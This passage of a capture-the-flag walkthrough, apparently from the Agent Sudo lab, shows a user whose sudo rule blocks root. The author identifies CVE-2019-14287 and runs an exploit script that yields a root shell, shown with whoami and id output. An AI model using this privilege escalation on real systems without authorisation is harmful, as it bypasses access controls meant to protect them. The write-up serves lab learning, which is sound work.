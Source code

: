 ```
james@agent-sudo:~$ sudo /bin/bash
Sorry, user james is not allowed to execute '/bin/bash' as root on agent-sudo.
```

I searched the (ALL, !root) on Google and got CVE-2019-14287, which is to be used for privilege escalation.

`The sudo vulnerability CVE-2019-14287 is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the 
“sudoers configuration” explicitly disallows the root access`

Using the exploit to gain the the root shell.

```
james@agent-sudo:/tmp$ python3 exploit.py 
Enter current username :james
Lets hope it works
root@agent-sudo:/tmp# whoami
root
root@agent-sudo:/tmp# id
uid=0(root) gid=1000(james) groups=1000(james)
root@agent-sudo:/tmp# 
```
